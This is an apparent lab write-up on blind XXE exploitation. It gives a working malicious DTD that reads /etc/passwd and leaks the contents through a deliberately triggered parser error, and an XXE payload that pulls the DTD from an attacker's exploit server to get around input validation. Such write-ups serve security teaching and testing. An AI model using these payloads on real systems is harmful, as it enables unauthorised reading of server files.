

We first find the site where the application uses XML: 


We can now create the error message data exfiltration payload:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>"> 
%eval; %exfil;
```

This creates an XML entity called file that displays the content of `/etc/passwd` but this variable is not being used literally, instead, an error is triggering on purpose that uses `%file` to display the file on the error message.

We store this malicious DTD in our exploit server:


And we add an XXE pointing to this exploit server:
`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`

This way, the malicious DTD will be loaded, executed, an error will be triggered and this error will contain the contents of the variable:


Note that if we try to exfiltrate the file directly, without error message:


We cannot due to it having illegal characters (it is being validated in some way):

Therefore, the error message is a way to bypasse some input validations.